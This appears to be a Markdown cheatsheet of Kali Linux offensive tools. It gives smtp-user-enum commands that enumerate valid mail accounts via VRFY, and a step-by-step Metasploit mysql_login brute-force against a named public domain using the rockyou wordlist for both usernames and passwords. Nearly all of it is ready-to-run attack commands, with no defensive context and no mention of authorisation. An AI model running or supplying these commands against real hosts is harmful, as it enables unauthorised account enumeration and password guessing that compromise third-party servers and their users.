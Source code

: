 <!-- TOC -->

- [KALI TOOLS CHEATSHEET](#kali-tools-cheatsheet)
  - [1. Information Gathering](#1-information-gathering)
    - [1. SMTP Analysis](#1-smtp-analysis)
  - [8. Exploitation tool](#8-exploitation-tool)
    - [1. metasploit framework](#1-metasploit-framework)

<!-- /TOC -->

# KALI TOOLS CHEATSHEET

## 1. Information Gathering

### 1. SMTP Analysis

1. smtp-user-enum

`kali > smtp-user-enum -M VRFY -U <userlist> -t <target IP>`

`kali > smtp-user-enum -M VRFY -U /usr/share/fern-wifi-cracker/extras/wordlists/common.txt -t 192.168.1.101`

## 8. Exploitation tool

### 1. metasploit framework

- msfconsole

  - brute-force login mysql server:

```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(scanner/mysql/mysql_login) > show options
msf auxiliary(scanner/mysql/mysql_login) > set rhosts phimvnz.com
msf auxiliary(scanner/mysql/mysql_login) > set user_file /usr/share/wordlists/rockyou.txt
msf auxiliary(scanner/mysql/mysql_login) > set pass_file /usr/share/wordlists/rockyou.txt
msf auxiliary(scanner/mysql/mysql_login) > run
```
